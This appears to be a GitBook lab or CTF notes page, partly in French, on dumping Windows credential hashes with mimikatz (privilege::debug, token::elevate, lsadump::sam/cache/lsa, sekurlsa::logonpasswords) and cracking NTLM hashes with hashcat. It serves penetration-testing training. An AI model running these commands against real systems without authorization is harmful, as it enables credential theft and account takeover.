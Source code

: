 # Dumping hashes w/ mimikatz

\


### Dump Hashes w/ mimikatz -

1.) `cd Downloads && mimikatz.exe` this will cd into the directory that mimikatz is kept as well as run the mimikatz binary\


<div align="left">

<figure><img src="../.gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

</div>

\
2.) `privilege::debug` ensure that the output is "Privilege '20' ok" - This ensures that you're running mimikatz as an administrator; if you don't run mimikatz as an administrator, mimikatz will not run properly\


<div align="left">

<figure><img src="../.gitbook/assets/image (23) (1).png" alt=""><figcaption></figcaption></figure>

</div>

{% hint style="warning" %}
Il est parfois nécessaire de taper la commande:&#x20;

&#x20;`token::elevate`
{% endhint %}



Puis ces commandes:

```
lsadump::sam
(ou)
lsadump::cache    (pour les users d'un domaine)
```



{% hint style="danger" %}
Si tout cela ne fonctionne pas, il est possible qu'utiliser la console Powershell en tant qu'admin soit NECESSAIRE.

f

puis:



&#x20; <mark style="color:blue;">`privilege::debug`</mark>   &#x20;



pour s'assurer des droits, puis:



&#x20;<mark style="color:blue;">`sekurlsa::logonpasswords`</mark>
{% endhint %}





\
3.) `lsadump::lsa /patch` Dump those hashes!\


<div align="left">

<figure><img src="../.gitbook/assets/image (24) (1).png" alt=""><figcaption></figcaption></figure>

</div>

### Crack those hashes w/ hashcat

﻿

1.) `hashcat -m 1000 <hash> rockyou.txt`   &#x20;

<figure><img src="../.gitbook/assets/image (25) (1).png" alt=""><figcaption></figcaption></figure>

\
Mimikatz has many uses along side being a great tool to dump hashes we will cover another one of those ways of using mimikatz in the next task by creating a golden ticket with mimikatz\
